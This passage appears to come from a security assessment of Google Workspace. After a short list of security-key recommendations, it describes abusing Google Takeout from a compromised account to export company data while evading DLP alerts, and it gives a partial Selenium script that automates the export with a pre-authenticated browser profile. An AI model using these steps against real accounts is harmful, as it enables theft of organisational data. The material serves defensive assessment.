 4. **Security Key Enforcement:**
   - Require security keys for account recovery operations
   - Implement hardware key attestation
   - Configure advanced protection program for critical users

## 3. Google Workspace Data Exfiltration

### Vulnerability: Google Takeout Service Abuse

**Description:**  
The Google Takeout service allows users to export their entire data across Google services, which can be abused to exfiltrate large amounts of company data without generating typical DLP alerts.

#### Proof-of-Concept Exploitation:

**1. Initiating Takeout Data Export:**

An attacker with access to a compromised account can navigate to Google Takeout (takeout.google.com) and:

1. Select all Google services containing sensitive data:
   - Gmail
   - Drive
   - Calendar
   - Contacts
   - etc.

2. Configure export options for maximum data:
   - Select all data categories
   - Choose largest export size
   - Select one-time download option
   - Use .zip format (less scrutiny than .tgz)

3. Create the export, which generates minimal logs compared to individual downloads

**2. Scripted Data Extraction:**

```python
# Python script for automating Takeout extraction
# Requires authenticated Google session (cookies)

import requests
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
import time
import json

# Setup headless browser
options = Options()
options.add_argument("--headless")
options.add_argument("--user-data-dir=/path/to/profile")  # Pre-authenticated profile
driver = webdriver.Chrome(options=options)

# Navigate to Takeout
driver.get("https://takeout.google.com/")
time.sleep(2)

# Select all services
select_all_button = driver.find_element_by_xpath("//button[contains(text(), 'Select all')]")
select_all_button.click()
time.sleep(1)

# Configure export
next_button = driver.find_element_by_xpath("//button[contains(text(), 'Next step')]")
next_button.click()
time.sleep(1)
```